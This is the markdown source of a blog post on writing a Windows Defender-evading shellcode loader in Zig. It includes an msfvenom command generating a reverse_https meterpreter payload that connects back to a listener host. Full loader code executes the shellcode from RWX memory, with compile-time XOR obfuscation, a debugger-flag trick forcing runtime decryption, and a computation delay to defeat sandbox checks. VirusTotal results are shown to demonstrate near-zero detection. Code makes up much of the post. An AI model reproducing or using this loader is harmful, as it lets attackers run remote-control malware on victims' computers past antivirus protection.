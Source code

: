 ```yaml
---
layout: post
title: Bypassing Windows Defender with Zig
author: Michal
date: 2024-7-20 01:11 -0300
---
```



Zig is a low-level language that aims to become a C-replacement. As I usually did all my offensive security payloads in C, I was pretty interested to try the features of a newer programming language and whether they can replace C as my go-to. In my blogs I will try to showcase features of Zig on few examples of offensive code.

With that said, let's get down to the "Hello world!" of offensive security - a simple shellcode loader. I'm gonna use staged meterpreter, generated with `msfvenom -p windows/x64/meterpreter/reverse_https -o src/meterpreter.bin LHOST=192.168.56.1 LPORT=443`. I chose meterpreter because it's been around for long so all decent AV products should detect its static signatures(how sad I was to found out this is not true), which makes it perfect for our examples. For those new to this, meterpreter is a malware that can remotely control a computer. 

 The loader consists of three phases:
1. Allocate writable and executable memory with `VirtualAlloc`.
2. Copy the shellcode into this memory. 
3. Cast the memory as a function pointer and call it.

Let's get directly to the Zig code:
```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;
const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

pub fn main() !void {
    // We include the shellcode as a string at compile time
    const shellcode = @embedFile("meterpreter.bin");
    // Allocate RWX memory for the shellcode
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    // We copy the shellcode to the memory.
    @memcpy(allocated_memory_ptr, shellcode);
    // Cast the RWX memory to a function pointer and then call it.
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

The first line of main function uses the `embedFile` builtin. This Zig builtin includes a whole binary file into our code as a string. 
This is a huge difference from C, where you would need to encode meterpreter as a C string:
![meterpreter included as a C file]({{site.url}}/assets/zig01/meterpreter_c.png)

On the next line, we allocate the memory. For WinAPI bindings I use the project [marlersoft/zigwin32](https://github.com/marlersoft/zigwin32) , and it's very simple to call a C function. We need to cast the type to `[*]u8`, which means
a pointer to multiple characters. Zig distinguishes between single element pointers and array pointers, which makes it simple to state your intent.

After that, we copy the shellcode and call a function pointer to it. This is enough for working shellcode loader and we can run meterpreter on a machine with Defender turned off.  However, to my big surprise, the loader still gets undetected by many AV products:
![basic shellcode loader virus total]({{site.url}}/assets/zig01/basic_vt.png)

 Welcome to year 2024 when only 24 AVs are capable of finding embedded meterpreter. I would be really happy to tell you that it's because of some dark optimizations that Zig performed, but to my disappointment the code is straightforward and the whole shellcode is embedded in `.rdata`.

![basic shellcode disassembly]({{site.url}}/assets/zig01/basic_disassembly.png).

### Compile time encryption
The first big problem of our shellcode is that it's a sitting duck for signature detections in the `.rdata` section. To achieve better results and bypass static signatures, we need to decrypt it during runtime. 
Zig offers us the `comptime` keyword, which enables us to run Zig code at compile time. This is similar to C macros or C++ template metaprogramming, but it is easier to read and write. The cool thing about `comptime` is that Zig *must* perform any such operations during compilation time. We can use `comptime` to implement xor encryption of the shellcode.

```zig
const std = @import("std");
const win32 = @import("win32");

const VirtualAlloc = win32.system.memory.VirtualAlloc;

const VIRTUAL_ALLOCATION_TYPE = win32.system.memory.VIRTUAL_ALLOCATION_TYPE;
const PAGE_EXECUTE_READWRITE = win32.system.memory.PAGE_EXECUTE_READWRITE;

//encrypt is a function that takes a compile time known string, and returns it encrypted
fn encrypt(comptime string: []const u8, k: u8) [string.len]u8 {
    // Zig has a default compilation timeout
    // We override it  to a big number so that the whole encryption can happen
    @setEvalBranchQuota(100000000);
    var encrypted_string: [string.len]u8 = undefined;
    // This loops over all characters of string - chr, and idx is the index
    for (string, 0..) |chr, idx| {
        // We do not want to xor with a single value, so we use also the index
        const key: u8 = @truncate((idx * 83) % 256);
        encrypted_string[idx] = chr ^ key ^ k;
    }
    return encrypted_string;
}

// This is very similar to the encrypt function
fn decrypt(mem: []u8, s: []const u8, k: u8) void {
    for (s, 0..) |chr, idx| {
        const key: u8 = @truncate((idx * 83) % 256);
        // The one difference is that this function also calls shouldRun, which should return 0
        // shouldRun is a function that ensures this is evaluated during runtime
        // this is how we prevent Zig from optimizing decryption out
        mem[idx] = chr ^ key ^ k + shouldRun();
    }
}
fn comptimeObfuscation(comptime s: []const u8) [s.len]u8 {
    const key = 0x42;
    // We call encrypt at comptime
    const enc_str = comptime encrypt(s, key);
    var ret_array: [s.len]u8 = [_]u8{0} ** s.len;
    decrypt(&ret_array, &enc_str, key);

    return ret_array;
}

fn shouldRun() u8 {
    // The value of BeingDebugged is determined during runtime
    const peb = std.os.windows.peb();
    return peb.BeingDebugged;
}

pub fn main() !void {
    // We include the shellcode as a string at compile time, and encrypt it
    const shellcode = comptimeObfuscation(@embedFile("meterpreter.bin"));
    const allocated_memory_ptr: [*]u8 = @ptrCast(VirtualAlloc(null, shellcode.len, VIRTUAL_ALLOCATION_TYPE{ .COMMIT = 1 }, PAGE_EXECUTE_READWRITE).?);
    @memcpy(allocated_memory_ptr, shellcode[0..]);
    const shellcode_fn: *const fn () void = @ptrCast(allocated_memory_ptr);
    shellcode_fn();
}
```

Our goal is to invoke the encrypt function during compile time -- Zig's `comptime` keyword enforces this. However, from my experiments, Zig was very eager to also run the decryption at compile time, and thus leaving the shellcode decrypted in the binary. From compiler's point of view this is an obvious optimalization, however we do not want this. The most consistent way to ensure runtime decryption is to make the `decrypt` function depend on any runtime value, 
and I chose the `BeingDebugged` which should be 0 unless program is debugged. The Ghidra decompiler proves that the compiled executable really decrypts the shellcode at runtime:
![disassembly of encrypted shellcode loader]({{site.url}}/assets/zig01/encrypted_disassembly.png)

The results from VirusTotal are not very encouraging. The encryption of shellcode only managed to bypass 5 products, which means we still have a long way to go.
![encrypted shellcode loader virus total]({{site.url}}/assets/zig01/encrypted_vt.png)

## Behavior 
Our encryption is robust and I'm pretty sure that no signatures can be found for our payloads. We can determine which products perform behavior checks by timing them out. To do this, I found a [md5 brute force snippet](https://www.reddit.com/r/adventofcode/comments/szphy0/2015_day_04zig_some_tips_to_solve_the_problem/) online. We will use this snippet to delay decrypting and executing the payload. I will not explain the code, as it's just a simple md5 hash cracking. The point is to use *any* slow computation without relying on functions that can be hooked by AV, such as common sleep functions.

Adding the delay, we can get to only 1 detection, and by AV that I've never actually seen used:
![encrypted shellcode loader with sleep virus total]({{site.url}}/assets/zig01/sleep_vt.png)

Of course, this does not mean that the payload would get executed in a real-world system. The behavior of meterpreter is pretty well known, and Windows defender consistently blocks it once it gets decrypted. Actually, in this case the Windows Defender was very good at detecting the staging mechanism - we could get initial beacon, but the meterpreter was killed immediatly after. I then decided to also play with stageless.

## Stageless meterpreter
While the shellcode of staged meterpreter is very small, it is at the cost of downloading the actual shellcode from the metasploit server. We can also use stageless variant, which comes with the whole meterpreter in the shellcode, thus making it much bigger. This also means more signatures(no encryption and no sleep):
![ stageless loader virus total]({{site.url}}/assets/zig01/stageless_vt.png)

After going through the hoops of encryption and sleep, we get to 8 detections:
![encrypted stageless loader with sleep virus total]({{site.url}}/assets/zig01/stageless_enc_sleep.png)

The reason for these detections is that the `.rdata` section is filled with 200KB of random nonsense and it's easy for any ML algorithm to pick up the entropy anomaly.
![encrypted shellcode loader entropy]({{site.url}}/assets/zig01/encrypted_entropy.png)

The interesting thing is that stageless meterpreter actually bypasses Windows Defender and we get the connection. This means that the detection really was in the staging protocol.

What I wanted to do next is to reduce this entropy - my idea was to simply prepend each encrypted byte with bunch of zeroes. However, this was not possible as Zig's `comptime` eats a *lot* of RAM. Even compiling the previous encryption took around 5 minutes for the stageless meterpreter, indicating that Zig's `comptime` is not yet suitable for very large payloads. This is a known issue with Zig compiler and something that is being worked on.

This basically encompasses my overall feelings of Zig - I like the language, and I think it has big potential for offensive tooling, but it's obvious that the language is still largely in development. Features of this language get added/removed pretty often, and new versions often bring breaking changes. Many codes found on the internet do not work anymore and the code in this blog might not work with the next release of Zig. I'm very hopeful for the future though, especially once the `comptime` memory issues get resolved. I like the language and I plan to write more blogs about it. My next blog will be about using `comptime` for hashing and a custom GetModuleHandle function.

The last thing that I loved about the whole experience was the ease of cross compilation from Linux to Windows. You don't need to involve mingw, the output platform is just a compiler flag for Zig compiler. All code for this blog can be found in my [GitHub](https://github.com/michal-sladecek/zig_experiments). Changes might be necessary to run it.

 {% include social-media-share.html %}








